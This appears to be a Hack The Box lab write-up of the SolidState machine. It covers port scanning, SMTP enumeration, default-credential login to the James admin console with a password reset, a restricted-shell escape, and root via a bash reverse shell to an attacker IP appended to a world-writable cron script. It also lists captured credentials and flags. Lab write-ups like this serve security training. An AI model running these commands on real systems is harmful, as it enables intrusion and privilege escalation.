




#CTF/HTB/Linux/Medium

# Given

## IP

10.10.10.51

## Scope

SolidState is a medium difficulty machine that requires chaining of multiple attack vectors in order to get a privileged shell. As a note, in some cases the exploit may fail to trigger more than once and a machine reset is required.

# Steps

## Initial Enumeration

### Nmap

- Start by running an nmap scan to see all open ports. Don't forget to run `-vv` for verbose mode, so you can see what kind of ports are open before the nmap process finishes up.

```bash fold title:"nmap enumeration" 
┌──(root㉿9e9bedea3549)-[/host_data]
└─# nmap -sCV -A -p- 10.10.10.51 -oN enum/nmap.out
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-30 16:39 UTC
Stats: 0:00:52 elapsed; 0 hosts completed (1 up), 1 undergoing Script Scan
NSE Timing: About 99.76% done; ETC: 16:40 (0:00:00 remaining)
Nmap scan report for 10.10.10.51
Host is up (0.0038s latency).
Not shown: 65529 closed tcp ports (reset)
PORT     STATE SERVICE     VERSION
22/tcp   open  ssh         OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey:
|   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
|   256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
|_  256 e4:45:e9:ed:07:4d:73:69:43:5a:12:70:9d:c4:af:76 (ED25519)
25/tcp   open  smtp        JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (10.10.14.23 [10.10.14.23]), PIPELINING, ENHANCEDSTATUSCODES
80/tcp   open  http        Apache httpd 2.4.25 ((Debian))
|_http-title: Home - Solid State Security
|_http-server-header: Apache/2.4.25 (Debian)
110/tcp  open  pop3        JAMES pop3d 2.3.2
119/tcp  open  nntp        JAMES nntpd (posting ok)
4555/tcp open  james-admin JAMES Remote Admin 2.3.2
Device type: general purpose
Running (JUST GUESSING): Apple OS X 10.10.X|10.11.X (85%)
OS CPE: cpe:/o:apple:mac_os_x:10.10 cpe:/o:apple:mac_os_x:10.11
Aggressive OS guesses: Apple OS X 10.10 (Yosemite) - 10.11 (El Capitan) (Darwin 14.0.0 - 15.0.0) (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 80/tcp)
HOP RTT     ADDRESS
1   0.11 ms 172.17.0.1
2   0.48 ms 10.10.10.51

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 137.18 seconds
```

- Going to the website on port 80 doesn't yield very much, neither does checking its tech stack. And ssh is not something I want to try and brute force right now. 
- So I focus on the mail server as a possible attack path.

### Banner Grab

- Using netcat, I can grab the banner of the service running the mail server.

```shell title:netcat
┌──(root㉿9e9bedea3549)-[/]
└─# nc -nv 10.10.10.51 25
(UNKNOWN) [10.10.10.51] 25 (smtp) open
220 solidstate SMTP Server (JAMES SMTP Server 2.3.2) ready Tue, 1 Jul 2025 01:34:50 -0400 (EDT)  
```

- This doesn't tell us very much. But it does give the SMTP server version (2.3.2)


### Enumerate SMTP

- Nmap is going to be used to enumerate smtp using the following scripts:
	- smtp-enum-users
	- smtp-commands
	- smtp-open-relay

```shell title:"smtp-enum-users"
┌──(root㉿9e9bedea3549)-[/host_data]
└─# nmap -p25 --script smtp-enum-users 10.10.10.51
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-01 06:17 UTC
Nmap scan report for 10.10.10.51
Host is up (0.0017s latency).

PORT   STATE SERVICE
25/tcp open  smtp
| smtp-enum-users:
|_  root

Nmap done: 1 IP address (1 host up) scanned in 10.35 seconds
```

```shell title:"smtp-commands"
┌──(root㉿9e9bedea3549)-[/host_data]
└─# nmap -p25 --script smtp-commands 10.10.10.51

Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-01 06:18 UTC
Nmap scan report for 10.10.10.51
Host is up (0.0019s latency).

PORT   STATE SERVICE
25/tcp open  smtp
|_smtp-commands: solidstate Hello nmap.scanme.org (10.10.14.23 [10.10.14.23])

Nmap done: 1 IP address (1 host up) scanned in 10.57 seconds
```

```shell title:"smtp-open-relay"
┌──(root㉿9e9bedea3549)-[/]
└─# nmap --script smtp-open-relay 10.10.10.51 -p25
Starting Nmap 7.95 ( https://nmap.org ) at 2025-07-01 06:22 UTC
Nmap scan report for 10.10.10.51
Host is up (0.0017s latency).

PORT   STATE SERVICE
25/tcp open  smtp
|_smtp-open-relay: Server is an open relay (2/16 tests)

Nmap done: 1 IP address (1 host up) scanned in 10.28 seconds
```

- Basically, enumerating SMTP didn't get me anywhere. So I had to look at other avenues.

## Exploit

- Googled `James 2.3.2 smtp exploit` and found an RCE exploit for this version of Apache James.
- `CVE-2015–7611`
- The idea is to get in using the default creds, and then using our rights as root, we change the password for one of the users, so we can login as them.
- We login to the pop3 server using `telnet 10.10.10.51 110` and get in as Mindy. 
- Then we list her emails, and take a look.





## Foothold

- Got Mindy's creds, and we hope she hasn't changed her password, so we can ssh into her machine.

```shell
ssh mindy@10.10.10.51 # use password in findings
```

- Mindy has a restricted shell, and breaking out of this is the goal. 
- One way of going about it is to ssh in while specifying the terminal to use.

```shell
ssh mindy@10.10.10.51 -t bash
```

- This gets you an unrestricted terminal into mindy's account. The user flag is in the home directory.

## PrivEsc

- In order to escalate our privileges, we have to start looking for vulnerabilities within the system. I could run LinPeass or start looking around using the checklist [here](https://viperone.gitbook.io/pentest-everything/everything/everything-linux/privilege-escalation-checklist#running-processes)
- Going down the list, we find a world writable file in `/opt/tmp.py` that's owned by root. The contents of the file aren't special, and I want to see if the script is being run at any point.
- I'm going to get the `pspy` script onto the target machine. That's going to allow me to look at the processes being run without the need to have root access.
- This shows me that the `tmp.py` script is being run very often. Perhaps the next time it runs, I can set up a reverse shell as root? 
- In order to do this, I will edit the `tmp.py` file and add the following to the bottom of it.:

```shell
os.system('bash -c "bash -i >& /dev/tcp/10.10.14.23/443 0>&1"')
```

- This will initiate a reverse shell to my listener every time the `tmp.py` script is run.
- On the attacking machine, I'll run a netcat listener on port 443, to capture any incoming requests.



# Findings

## Open Ports

```shell title:nmap
22/tcp   open  ssh         OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
25/tcp   open  smtp        JAMES smtpd 2.3.2
80/tcp   open  http        Apache httpd 2.4.25 ((Debian))
110/tcp  open  pop3        JAMES pop3d 2.3.2
119/tcp  open  nntp        JAMES nntpd (posting ok)
4555/tcp open  james-admin JAMES Remote Admin 2.3.2
```

## SMTP Login (4555)

```shell fold title:smtp
┌──(root㉿9e9bedea3549)-[/host_data]
└─# telnet 10.10.10.51 4555
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
listusers
Existing accounts 5
user: james
user: thomas
user: john
user: mindy
user: mailadmin
setpassword mindy rootpass
Password for mindy reset
```

# Creds

- SMTP Server default creds:
	- root/root
- Mindy ssh creds:
	- mindy@10.10.10.51 : P@55W0rd1!2@

# Flags

- User: f7d96d62eb4892a6c5ba13740b4e46e8
- Root: 35ad818a2d70e59c51a1b0fe3c40c3de

# Proof


